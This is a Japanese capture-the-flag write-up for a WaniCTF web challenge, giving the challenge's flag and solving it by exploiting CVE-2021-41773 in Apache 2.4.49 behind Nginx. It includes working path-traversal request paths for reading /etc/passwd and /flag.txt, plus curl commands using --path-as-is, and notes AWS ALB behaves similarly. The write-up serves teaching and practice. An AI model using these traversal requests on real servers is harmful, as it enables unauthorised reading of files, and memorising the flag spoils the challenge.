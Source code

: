 ```yaml
---
title: traversal
level: 4
flag: FLAG{n61nx_w34k_c0nf16_m3r63_5l45h35}
writer: hi120ki
badge: true
---
```


# traversal

## 問題文

Webサーバーにロードバランサーをつけたよ！

なんかWebサーバーのバージョンがアレらしいけど、秘密のファイル`/flag.txt`はそのままでいっか！

<https://traversal.web.wanictf.org/>

ヒント

- いろいろ設定に違和感が...
- [Burp Suite](https://portswigger.net/burp/communitydownload)を使うのがおすすめです

## 解法

まずこのサービスの仕組みは、ユーザーからのリクエストを`traversal-lb`で受け取り、それを`traversal-web`へ流すようになっています。

そして`traversal-lb`はNginxが、`traversal-web`ではApacheが動作しており、配布ファイルにはそれぞれの設定ファイルが含まれています。

まずは`traversal-web`がどんなサービスかDockerfileをみてみると

```
FROM httpd:2.4.49
```

脆弱性が含まれていることで話題になったバージョンのApacheを使用しています。そして

```
RUN echo "FAKE{This_is_fake_flag}" > /flag.txt
```

フラグ文字列を`/flag.txt`に保存しています。これはApacheの標準設定では閲覧できない箇所のファイルを見る、いわゆるパストラバーサルで攻撃することが求められています。

このバージョン2.4.49のApacheにはCVE-2021-41773という脆弱性が確認されており、設定ファイルがデフォルトの

```
<Directory />
    AllowOverride none
    Require all denied
</Directory>
```

から

```
<Directory />
    AllowOverride none
    Require all granted
</Directory>
```

へ変更されているときに`/cgi-bin/.%2e/.%2e/.%2e/.%2e/etc/passwd`というパスでリクエストを送るとサーバー上の読み取り権限がある任意のファイルを読み出すことができます。

この問題サービスでは`/cgi-bin/.%2e/.%2e/.%2e/.%2e/flag.txt`というパスでリクエストを送ればよさそうですが、送ってみると

```html
<html>
<head><title>400 Bad Request</title></head>
<body>
<center><h1>400 Bad Request</h1></center>
<hr><center>nginx/1.20.1</center>
</body>
</html>
```

Nginx側でこのようなエラーが出ます。このリクエストのままだとNginxで処理されないようなのでそこでNginxの設定ファイルを見ると`default.conf`に`merge_slashes off;`という設定が追加されています。これは`//`や`./`のようなパスのリクエストを`/`にまとめる機能がオフになっています。

このとき最初に`///`を付け加えた`////cgi-bin/.%2e/.%2e/.%2e/.%2e/flag.txt`というパスでリクエストを送るとパストラバーサルでflagが取得できることが知られています。

参考 : [NGINX may be protecting your applications from traversal attacks without you even knowing](https://medium.com/appsflyer/nginx-may-be-protecting-your-applications-from-traversal-attacks-without-you-even-knowing-b08f882fd43d)

そして、実際にリクエストを送るときには

```
curl https://traversal.web.wanictf.org////cgi-bin/.%2e/.%2e/.%2e/.%2e/flag.txt
```

というコマンドではcurl自体がパスをまとめてしまうので`--path-as-is`というオプションを追加する必要があります。

```
curl --path-as-is https://traversal.web.wanictf.org////cgi-bin/.%2e/.%2e/.%2e/.%2e/flag.txt
```

また、Burp SuiteでHTTPリクエストを直接編集する方法でもフラグを取得できます。

![burp](pic/burp.jpg)

> 豆知識
>
> AWS ALBがNginxの`merge_slashes off;`という設定と同様の挙動をすることが知られており、ALB配下に脆弱なバージョンのApacheやパストラバーサルができるアプリがあると攻撃が成功することがあります。
>
> https://dev.classmethod.jp/articles/apache-cve-alb-nginx/
